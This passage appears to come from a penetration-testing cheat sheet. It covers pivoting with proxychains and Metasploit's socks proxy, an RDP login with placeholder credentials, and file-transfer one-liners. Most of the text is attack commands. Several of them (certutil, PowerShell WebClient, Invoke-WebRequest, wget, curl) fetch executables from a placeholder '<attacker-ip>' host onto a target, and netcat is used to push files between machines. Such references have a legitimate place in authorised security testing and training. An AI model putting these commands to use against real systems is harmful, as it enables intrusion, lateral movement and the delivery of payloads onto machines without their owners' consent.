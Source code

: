 #### Proxychains
```bash
# Edit /etc/proxychains4.conf
[ProxyList]
socks4 127.0.0.1 9050

# Use with tools
proxychains nmap -sT -p80,443,445 <target>
proxychains xfreerdp /u:admin /p:pass /v:target
```

#### Metasploit Pivoting
```bash
# Add route through session
route add <target-network> <netmask> <session-id>

# Start socks proxy
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run

# Use proxychains
proxychains [tool] [options]
```

### File Transfer Techniques

#### Windows Methods
```batch
REM Certutil
certutil.exe -urlcache -f http://<attacker-ip>/file.exe file.exe

REM PowerShell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<attacker-ip>/file.exe', 'file.exe')"
Invoke-WebRequest -Uri "http://<attacker-ip>/file.exe" -OutFile "file.exe"

REM SMB
copy \\<attacker-ip>\share\file.exe .
```

#### Linux Methods
```bash
# Python HTTP Server
python3 -m http.server 80

# wget
wget http://<attacker-ip>/file

# curl
curl -O http://<attacker-ip>/file

# nc
# Receiver
nc -lvnp 1234 > file
# Sender
nc -w 3 <target-ip> 1234 < file
```
